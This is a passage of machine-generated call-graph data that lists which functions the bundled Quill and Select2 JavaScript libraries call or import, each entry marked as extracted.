"relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getBounds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "void"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "removeAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "extendToolbar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "buildButtons"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "buildPickers"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "querySelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addBinding"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "link"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "edit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "static/js/select2-4.1.0.min.js", "target": "jquery"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "static/js/select2-4.1.0.min.js", "target": "jquery"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "static/js/select2-4.1.0.min.js", "target": "jquery.select2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "require"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "require"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "require"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "exports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "module"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "load"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "invoke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "invoke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "innerHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "innerWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "generateChars"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "removeAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "empty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "hideLoading"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "append"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "append"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "hideLoading"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "option"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "append"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "children"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "append"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "first"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "first"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "ensureHighlightVisible"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "current"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "hideLoading"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "option"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "prepend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "template"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "option"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "append"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "append"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "append"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "template"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "append"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "isOpen"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "setClasses"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "highlightFirstItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "append"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "isOpen"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "setClasses"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "hideMessages"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "showLoading"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "isOpen"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "setClasses"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "highlightFirstItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "isOpen"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "setClasses"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "highlightFirstItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "setClasses"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "ensureHighlightVisible"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "removeAttr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "getHighlightedResults"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "getHighlightedResults"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "hasClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "getHighlightedResults"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "index"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "offset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "offset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "scrollTop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "scrollTop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "scrollTop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "getHighlightedResults"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "index"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "offset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "outerHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "offset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "outerHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "scrollTop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "scrollTop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "scrollTop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "displayMessage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "scrollTop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "height"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "scrollTop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "stopPropagation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "scrollTop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "height"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "stopPropagation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "hasClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "getHighlightedResults"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "removeClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "getHighlightedResults"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "index"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "offset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "offset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "scrollTop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "outerHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "scrollTop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "outerHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "scrollTop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "append"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_handleBlur"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_attachCloseHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "removeAttr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "removeAttr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/select2-4.1.0.min.js", "target": "_detachCloseHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": 